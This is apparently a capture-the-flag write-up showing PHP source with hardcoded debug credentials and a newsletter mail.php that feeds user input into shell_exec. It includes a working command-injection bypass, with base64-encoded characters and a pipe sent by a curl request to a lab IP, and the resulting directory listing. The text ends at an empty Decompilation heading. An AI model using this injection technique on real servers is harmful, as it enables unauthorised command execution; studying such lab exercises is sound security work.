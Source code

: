 `../config.php`
```php
<?php
$bug_user = "admin";
$bug_pass = "b(_)gs";
?>
```
These are the debug creds for the bug_report webpage.

`../mail.php`
```php
<?php
if(array_key_exists("email",$_POST))
{
    if($_POST['email'])
    {
	echo "Sending email for news letter signup using mail command<br>";
        if(strstr($_POST['email'],"..") || strstr($_POST['email'],"/") || strstr($_POST['email'],"\\") )
        {
            die("Those characters aren't allowed in the email field.");
        }

        echo shell_exec("mail -s \"Welcome to our newsletter\" ".$_POST['email']);
    }
}
?>
```

## Email

The mail page causes a `shell_exec` call with the lightly filtered user input. We can avoid the filter by replacing `.` with `$(echo Lg== | base64 -d)` and `/` with `echo Lw== | base64 -d`. We can inject our own command to the email by adding a `|` to the end of the email and by echoing the command to get the output. Here's an example where we can run `ls /`.
```
$curl 'http://172.18.10.105:6530/mail.php' --data-raw 'email="a@a.com" | echo $(ls $(echo Lw== | base64 -d))'
Sending email for news letter signup using mail command<br>Payload.vm PayloadDecompiler VM_Capture.pcap bin boot dev etc home lib lib32 lib64 libx32 media mnt opt proc root run sbin srv sys tmp usr var web-apps web-servers
```

We can try searching for some obvious flags using `find` but we won't fond anything. It seems like this might be a dead end.

## Packet Capture
Let's look at the pcap. It looks like there are a lot of requests to port 1025, some of the requests send some binary data and get back Fibonacci numbers. It will be important to notice that the after the sender is finished sending binary data, they send a FIN which closes their side of the TCP session.

## Decompilation
